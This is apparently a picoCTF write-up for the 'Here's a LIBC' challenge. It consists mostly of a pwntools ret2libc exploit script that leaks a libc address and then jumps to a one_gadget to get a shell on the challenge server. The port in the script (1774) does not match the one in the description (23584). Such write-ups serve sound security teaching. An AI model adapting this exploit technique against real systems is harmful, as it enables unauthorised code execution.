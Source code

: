 # Here's a LIBC

Type/Tags : Binary Exploitation
Author : Madstacks

# Description
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 23584

# Hints
PWNTools has a lot of useful features for getting offsets.

# Solution
Very standard ret2libc challenge with vuln being the vulnerable ELF executable and libc.so.6 being the version of libc used that is needed to exploit the challenge. You can learn about ret2libc challenges in a lot of places including LiveOverflow's videos on the topic, pwn.college, and here: https://research.801labs.org/stack-exploitation/

Final exploit script:

./python
from pwn import *
p = remote('mercury.picoctf.net', 1774)
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

#create the first rop chain to leak libc address
JUNK = ("A"*136).encode()
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

p.sendlineafter("sErVeR!", rop)

p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)

#found by using one_gadget /bin/sh
#0x4f365
#0x4f3c2
#0x10a45c

rop2 += p64(leak)

p.sendlineafter("sErVeR!", rop2)

p.interactive()

# Flag
